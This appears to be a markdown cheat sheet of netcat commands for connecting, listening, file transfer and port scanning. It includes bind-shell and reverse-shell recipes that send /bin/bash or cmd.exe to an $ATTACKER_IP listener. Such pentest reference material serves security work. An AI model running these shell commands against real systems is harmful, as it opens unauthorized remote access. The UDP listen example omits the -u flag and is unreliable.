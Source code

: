 # Netcat

The Swiss Army knife of networking and security.

## Connect to remote port

```bash
nc -nv $REMOTE_IP $REMOTE_PORT
```

## Listen for a connection on all interfaces

```bash
nc -nlvp $LISTEN_PORT
```

## Listen for a connection on a particular interface

```bash
nc -nlvp $LISTEN_PORT -s $LISTEN_IP
```

## File Transfer

```bash
nc -nv $REMOTE_IP $REMOTE_PORT < $FILE_PATH
```

## File Reception

```bash
nc -nlvp $LISTEN_PORT > $FILE_PATH
```

## Bind Shell

* Target:

```bash
nc -nlvp $TARGET_LISTEN_PORT -e [/bin/bash or cmd.exe]
```

* Attacker:

```bash
nc -nv $TARGET_IP $TARGET_LISTEN_PORT
```

## Reverse Shell

* Attacker:

```bash
nc -nlvp $ATTACKER_LISTEN_PORT
```

* Target:

```bash
nc -nv $ATTACKER_IP $ATTACKER_LISTEN_PORT -e [/bin/bash or cmd.exe]
```

## Connect to a remote UDP port

```bash
nc -nuv $REMOTE_IP $REMOTE_PORT
```

## Listen for a connection on a particular UDP port

```bash
nc -nlvp $LISTEN_PORT
```

## Scan a range of ports

```bash
netcat -nv $REMOTE_IP $PORT_RANGE
```

- PORT_RANGE example:
  - 1-65535
